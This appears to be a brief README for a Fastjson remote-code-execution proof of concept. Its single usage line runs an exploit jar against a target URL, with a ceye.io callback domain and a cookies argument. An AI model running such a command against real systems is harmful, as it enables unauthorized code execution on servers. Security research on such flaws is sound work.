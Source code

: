# Fastjson-POC
Fastjson-POC

E.G.
java -jar fastjson-2019-Rce.jar http://attackURL/ aaaaa.ceye.io/test cookies
